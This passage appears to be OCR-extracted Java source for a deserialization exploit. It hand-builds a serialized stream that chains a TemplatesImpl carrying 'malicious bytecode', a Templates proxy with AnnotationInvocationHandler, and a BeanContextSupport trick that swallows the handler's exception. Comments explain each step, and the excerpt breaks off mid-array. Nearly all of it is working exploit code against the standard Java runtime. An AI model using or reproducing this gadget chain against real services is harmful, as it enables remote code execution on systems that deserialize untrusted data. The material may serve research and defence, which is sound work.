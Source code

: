 ```java
                // (2) First item in LinkedHashSet
                templates, // TemplatesImpl instance with malicious bytecode

                // (3) Second item in LinkedHashSet
                // Templates Proxy with AIH handler
                TC_OBJECT,
                TC_PROXYCLASSDESC,          // proxy declaration
                1,                          // one interface
                Templates.class.getName(),  // the interface implemented by the proxy
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,
                Proxy.class.getName(),      // java.lang.Proxy class desc
                -2222568056686623797L,      // serialVersionUID
                SC_SERIALIZABLE,            // flags
                (short) 2,                  // field count
                (byte) 'L', "dummy", TC_STRING, "Ljava/lang/Object;", // dummy non-existent field
                (byte) 'L', "h", TC_STRING, "Ljava/lang/reflect/InvocationHandler;", // h field
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (3) Field values
                // value for the dummy field <--- BeanContextSupport.
                // this field does not actually exist in the Proxy class, so after deserialization this object is ignored.
                // (4) BeanContextSupport
                TC_OBJECT,
                TC_CLASSDESC,
                BeanContextSupport.class.getName(),
                -4879613978649577204L,      // serialVersionUID
                (byte) (SC_SERIALIZABLE | SC_WRITE_METHOD),
                (short) 1,                  // field count
                (byte) 'I', "serializable", // serializable field, number of serializable children
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,               // super class
                BeanContextChildSupport.class.getName(),
                6328947014421475877L,
                SC_SERIALIZABLE,
                (short) 1,                  // field count
                (byte) 'L', "beanContextChildPeer", TC_STRING, "Ljava/beans/beancontext/BeanContextChild;",
                TC_ENDBLOCKDATA,
                TC_NULL,                    // no superclass

                // (4) Field values
                // beanContextChildPeer must point back to this BeanContextSupport for BeanContextSupport.readObject to go into BeanContextSupport.readChildren()
                TC_REFERENCE, baseWireHandle + 12,
                // serializable: one serializable child
                1,

                // now we add an extra object that is not declared, but that will be read/consumed by readObject
                // BeanContextSupport.readObject calls readChildren because we said we had one serializable child but it is not in the byte array
                // so the call to child = ois.readObject() will deserialize next object in the stream: the AnnotationInvocationHandler
                // At this point we enter the readObject of the aih that will throw an exception after deserializing its default objects

                // (5) AIH that will be deserialized as part of the BeanContextSupport
                TC_OBJECT,
                TC_CLASSDESC,
                "sun.reflect.annotation.AnnotationInvocationHandler",
```